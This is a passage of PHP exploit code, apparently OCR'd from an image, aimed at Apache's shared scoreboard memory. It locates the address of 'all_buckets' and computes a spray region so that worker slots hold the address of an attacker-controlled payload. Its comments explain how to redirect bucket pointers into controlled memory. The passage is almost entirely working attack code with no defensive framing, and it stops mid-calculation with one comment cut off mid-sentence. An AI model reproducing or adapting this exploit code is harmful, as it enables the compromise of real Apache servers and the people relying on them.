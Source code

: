                     o('        [*]: 0x' . dechex($m));
                }

                $all_buckets = $i - 0x10;
                o('all_buckets = 0x' . dechex($all_buckets));
                break;
            }

            if(!$all_buckets)
            {
                o('Unable to find all_buckets');
                exit();
            }

            o('');

            # The address of all_buckets will change when apache is gracefully
            # restarted. This is a problem because we need to know all_buckets's
            # address in order to make all_buckets[some_index] point to a memory
            # region we control.

            #
            # Compute potential bucket indexes and their addresses
            #

            o('Computing potential bucket indexes and addresses');

            # Since we have sizeof($workers_pid) MPM workers, we can fill the rest
            # of the ap_score_image->servers items, so 256 - sizeof($workers_pids),
            # with data we like. We keep the one at the top to store our payload.
            # The rest is sprayed with the address of our payload.

            $size_prefork_child_bucket = 24;
            $size_worker_score = 264;
            # I get strange errors if I use every "free" item, so I leave twice as
            # many items free. I'm guessing upon startup some
            $spray_size = $size_worker_score * (256 - sizeof($workers_pids) * 2);
            $spray_max = $addresses['shm'][1];
            $spray_min = $spray_max - $spray_size;
